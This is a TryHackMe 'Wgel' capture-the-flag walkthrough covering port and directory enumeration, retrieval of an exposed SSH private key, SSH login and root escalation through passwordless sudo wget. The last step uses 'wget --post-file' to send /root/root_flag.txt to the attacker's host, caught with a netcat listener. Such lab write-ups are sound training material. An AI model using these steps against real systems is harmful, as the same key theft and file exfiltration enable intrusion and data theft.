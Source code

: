 
## 🚀 Walkthrough | Wgel | Tryhackme

### 1️⃣ Enumeration
First, scan the target IP to discover open ports and running services:
```bash
nmap -sV <IP>
```
**Findings:**
- **Port 22 (SSH)** — Open, running OpenSSH  
- **Port 80 (HTTP)** — Apache web server running  

---

### 2️⃣ Finding a Username
Inspecting the HTTP service revealed a username that could be used later for SSH access.  

---

### 3️⃣ Directory Bruteforcing
Run **Gobuster** to enumerate directories:
```bash
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt
```
Found:  
```
/sitemap
```

---

### 4️⃣ Digging Deeper in `/sitemap`
At first, `/sitemap` seemed empty. Running Gobuster again on `/sitemap`:
```bash
gobuster dir -u http://<IP>/sitemap/ -w /usr/share/wordlists/dirb/common.txt
```
Discovered:
```
/.ssh
```

---

### 5️⃣ Retrieving the SSH Key
Downloaded the SSH private key from:
```
http://<IP>/sitemap/.ssh
```
Fixed key permissions:
```bash
chmod 600 id_rsa
```

---

### 6️⃣ SSH Access
Logged in using the discovered username and private key:
```bash
ssh -i id_rsa <username>@<IP>
```
After successful login, retrieved the **user flag**:
```bash
cat user_flag.txt
```

---

### 7️⃣ Privilege Escalation to Root
Check available `sudo` privileges:
```bash
sudo -l
```
Found that **wget** can be run as root without a password.

---

### 8️⃣ Exfiltrating the Root Flag
Used `wget` to send the root flag to my local machine:
```bash
sudo /usr/bin/wget --post-file=/root/root_flag.txt http://<your-ip>:<port>
```
On my machine, started a netcat to receive the file:
```bash
nc -nvlp 4444
```
**Root flag received!** 🏆

---

## 🎯 Flags Obtained
- **User Flag:** ✅  
- **Root Flag:** ✅  

---
